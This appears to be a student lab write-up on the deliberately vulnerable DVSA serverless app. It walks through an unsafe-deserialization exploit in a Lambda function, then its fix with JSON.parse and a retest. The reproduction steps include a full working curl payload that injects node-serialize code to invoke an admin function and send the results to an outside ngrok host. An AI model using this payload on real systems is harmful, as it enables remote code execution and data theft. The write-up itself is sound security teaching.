









# Lesson #3: Sensitive Data Exposure

| Lesson summary: The system exposed sensitive information through API responses. An attacker could capture requests and obtain S3 download URLs, enabling access to receipt files without proper restrictions. |
| --- |

Main affected component: S3 receipts bucket, API response handling, Lambda output, data exposure via URLs

## Part 1) Goal and Vulnerability Summary

This lesson demonstrates a Sensitive Information Disclosure vulnerability in the DVSA application.

The issue exists in the backend Lambda function responsible for retrieving order receipts from Amazon S3. An attacker can exploit unsafe input handling and access privileged functionality to generate download URLs for sensitive receipt files.

The main affected component is the AWS Lambda function (DVSA-ORDER-MANAGER) interacting with S3. The impact is that unauthorized users can retrieve confidential receipt data without proper authorization.

The root weakness is improper handling of user input combined with missing authorization validation, allowing access to restricted resources.

## Part 2) Why This Works / Root Cause

The vulnerability is caused by unsafe deserialization using the node-serialize library.

User-controlled input is processed using serialize.unserialize(), which allows execution of injected code. This enables the attacker to invoke privileged backend functionality and extract sensitive data.

Additionally, the system lacks proper authorization checks before generating receipt download URLs.

## Part 3) Environment and Setup

The test was performed on the DVSA application deployed on AWS in the us-east-1 region.

The vulnerable component is the Lambda function:

DVSA-ORDER-MANAGER

Tools used:

- curl (for sending crafted requests)

- ngrok (for capturing exfiltrated data)

- AWS CloudWatch (for debugging errors)

- AWS Lambda Console (for code inspection and modification)

The API endpoint used:

https://3zb40wtoy7.execute-api.us-east-1.amazonaws.com/dvsa/order

## Part 4) Reproduction Steps

1. Start ngrok to capture outgoing requests:

./ngrok http 80

2. Export the DVSA API endpoint:

export API="https://3zb40wtoy7.execute-api.us-east-1.amazonaws.com/dvsa/order"

3. Send a malicious payload exploiting unsafe deserialization:

curl -s "$API" \

-H "content-type: application/json" \

-data-raw '{"action":"_$$ND_FUNC$$_function(){var aws=require(\aws-sdk\);var lambda=new aws.Lambda();var p={FunctionName:\DVSA-ADMIN-GET-RECEIPT\,InvocationType:\RequestResponse\,Payload:JSON.stringify({\year\:\2018\,\month\:\12\})};lambda.invoke(p,function(e,d){var h=require(\https\);h.get(\"https://agility-monetize-batting.ngrok-free.dev/ "+encodeURIComponent(JSON.stringify(d)));});}()"}'

4. Observe the response returned by the API.

5. Open the ngrok interface to capture the request:

http://127.0.0.1:4040

6. Extract the S3 download URL from the captured data.

7. Open the URL in the browser and download the receipt ZIP file.

## Part 5) Evidence and Proof

The vulnerability was successfully demonstrated.

1. The ngrok interface shows incoming requests containing sensitive data.

_Figure L3-1: Exploit payload sent to the order API._

_Figure L3-2: ngrok tunnel showing captured outgoing request data._

2. A download URL for S3 receipt files was generated.

_Figure L3-3: ngrok request details showing generated S3 download URL._

3. The receipt file (ZIP) was successfully downloaded.

_Figure L3-4: Receipt ZIP file successfully downloaded._

4. The ZIP file was opened to verify its contents. Although the folder was empty, the successful generation and access of the file confirms the vulnerability.

_Figure L3-5: Downloaded receipt ZIP opened for verification._

## Part 6) Fix Strategy / Probable Mitigation

The vulnerability can be mitigated by eliminating unsafe deserialization and enforcing secure input handling.

The primary issue exists in the Lambda function (DVSA-ORDER-MANAGER), where user input is processed using an insecure library that allows execution of embedded code.

To fix this, the application should avoid using libraries such as node-serialize that support function execution. Instead, safe parsing methods such as JSON.parse should be used to ensure that input is treated strictly as data.

Additionally, proper authorization checks should be enforced before allowing access to sensitive operations such as receipt generation. Only authorized users should be able to request or generate download URLs for receipt files.

Applying these mitigations ensures that malicious payloads cannot execute code and prevents unauthorized access to sensitive S3 resources.

## Part 7) Code / Config Changes

The following changes were applied to fix the vulnerability:

1. Code Change:

The unsafe deserialization method:

serialize.unserialize(event.body)

_Figure L3-6: Before - unsafe serialize.unserialize(event.body) usage._

was replaced with:

JSON.parse(event.body)

_Figure L3-7: After - JSON.parse replaces unsafe deserialization._

This prevents execution of injected JavaScript code and ensures that input is handled as plain data.

2. Configuration Change:

A custom Lambda layer was created and attached to the function to include the missing dependency (aws-sdk).

_Figure L3-8: After - custom Lambda layer attached for missing dependency._

This resolved the runtime error and allowed proper execution of the application during testing.

These changes ensure that the application no longer allows arbitrary code execution and functions securely.

## Part 8) Verification After Fix

After applying the fix, the same exploit was executed again using the identical malicious payload.

_Figure L3-9: After - ngrok shows no exploit callback after the fix._

The request was sent through curl in the same way as before the fix. However, this time the behavior was different.

No outgoing requests were observed in the ngrok interface, which indicates that the injected code was not executed.

Instead of executing the malicious payload, the application treated the input as normal data. This confirms that the unsafe deserialization issue has been successfully resolved.

Additionally, normal application functionality was not affected by the fix, as valid requests continue to work correctly.

Therefore, the vulnerability is considered fully mitigated.

## Part 9) Structured Operation and Security Analysis

The following tables summarize the expected and exploited behaviors before and after applying the fix.

## Table A

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior | Exploit Behavior |
| --- | --- | --- | --- | --- |
| Sensitive Information Disclosure | User input must be treated as data only and must not be executed as code. | API, curl, ngrok, AWS Lambda, S3 | The application processes user requests safely and returns only authorized data. | The attacker injects malicious code using unsafe deserialization, executes arbitrary code, and retrieves a signed S3 URL containing sensitive receipt data. |

## Table B

| Vulnerability | Deviation | Class | Fix Applied | Post-Fix Verification | Optional Latency Before / After Logging |
| --- | --- | --- | --- | --- | --- |
| Sensitive Information Disclosure | User input is executed as code instead of being treated as data. | Injection (Remote Code Execution) | Replaced serialize.unserialize() with JSON.parse() to prevent code execution. | The same exploit was executed again, and no request was received by ngrok, confirming that the attack failed. | Not measured |

## Part 10) Takeaway / Lessons Learned

This lesson demonstrated a critical security vulnerability caused by unsafe deserialization in a serverless application.

By exploiting the use of the node-serialize library, it was possible to inject and execute arbitrary JavaScript code within the backend Lambda function. This allowed unauthorized access to sensitive data stored in Amazon S3 through the generation of signed download URLs

The vulnerability was successfully mitigated by replacing unsafe deserialization with secure parsing using JSON.parse, ensuring that user input is treated strictly as data rather than executable code.

Verification after the fix confirmed that the exploit no longer works, and no malicious requests were executed. This demonstrates the effectiveness of the applied mitigation.

This lesson highlights the importance of secure input handling, avoiding unsafe libraries, and validating all user-controlled data in cloud-based applications.
